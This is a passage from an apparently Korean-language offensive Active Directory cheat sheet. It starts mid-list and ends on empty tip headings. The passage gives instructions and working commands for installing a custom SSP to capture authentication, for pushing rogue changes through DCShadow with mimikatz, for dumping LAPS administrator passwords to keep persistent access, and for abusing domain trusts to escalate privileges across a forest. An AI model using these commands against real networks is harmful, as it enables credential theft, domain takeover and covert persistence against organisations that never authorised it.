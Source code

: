 2. 마스터 암호를 사용하여 모든 계정을 인증하세요.

# 사용자 정의 SSP

- 사용자 정의 보안 지원 공급자를 설치하세요.
- SSP를 사용하여 인증 프로세스를 캡처하거나 조작하세요.

# DCShadow

<div class="content-ad"></div>

- DCShadow를 사용하여 로그인 DC를 등록하세요.

```js
mimikatz.exe "privilege::debug" "lsadump::dcshadow /push" "exit"
```

2. 수정된 객체 및 권한을 조작하기 위해 AD 데이터베이스에 변경 사항을 푸시하세요.

```js
mimikatz.exe "privilege::debug" "lsadump::dcshadow /update" "exit"
```

<div class="content-ad"></div>

# LAPS 지속성

- 액세스를 유지하는 데 LAPS 설정을 활용하세요.

```js
Get-ADComputer -Filter * -Property "ms-MCS-AdmPwd" | Select-Object Name, "ms-MCS-AdmPwd"
```

2. 주기적으로 암호를 업데이트하고 검색하여 지속성을 보장하세요.

<div class="content-ad"></div>

# Forest Privilege Escalation — Domain Trusts

- 상호도메인 신뢰를 식별합니다.

```js
Get-ADTrust -Filter *
```

숲 전체에서 권한을 상승시키기 위해 신뢰 관계를 악용하세요.

<div class="content-ad"></div>

# 초보자를 위한 팁

# 피해야 할 흔한 실수
